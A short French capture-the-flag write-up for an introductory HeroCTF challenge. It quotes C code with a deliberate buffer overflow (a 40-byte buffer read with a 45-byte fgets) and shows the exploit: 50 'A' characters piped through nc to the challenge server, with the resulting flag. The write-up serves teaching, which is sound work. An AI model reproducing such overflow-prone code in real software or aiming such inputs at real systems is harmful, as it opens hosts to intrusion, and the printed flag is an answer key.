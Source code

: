 Ce challenge a pour but d'introduire le concept de Buffer Overflow !

Pour cette introduction, nous avons accès au code source du challenge.
La partie intéressante du code est la suivante :
```c
int check = 0xdeadbeef;
char buf[40];

printf("Déborde moi mon cochon : ");
 
fgets(buf,45,stdin);
 
if (check!= 0xdeadbeef){
  printf ("\nGG wola tu m'as eu\n");
  setreuid(geteuid(), geteuid());
  system("cat flag.txt");
  printf("Voilà ton flag petit fou.\n");
}
```
On comprend donc ici qu'il va falloir overflow le buffer où est stocké l'input (buf) pour aller modifier la valeur du check.
Pour ceci, on entre dans l'input plus de caractères que le buffer ne peut en contenir (40).
50 caractères, par exemple.
```bash
$ nc heroctf.fr 3000
Déborde moi mon cochon : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

GG wola tu m'as eu
HeroCTF{1_l0v3_buff3r_0v3rfl0w_10493}
Voilà ton flag petit fou.
```
Ou en utilisant python :
```bash
$ python -c "print('A'*50)" | nc heroctf.fr 3000
Déborde moi mon cochon : 
GG wola tu m'as eu
HeroCTF{1_l0v3_buff3r_0v3rfl0w_10493}
Voilà ton flag petit fou.
```
HeroCTF{1_l0v3_buff3r_0v3rfl0w_10493}
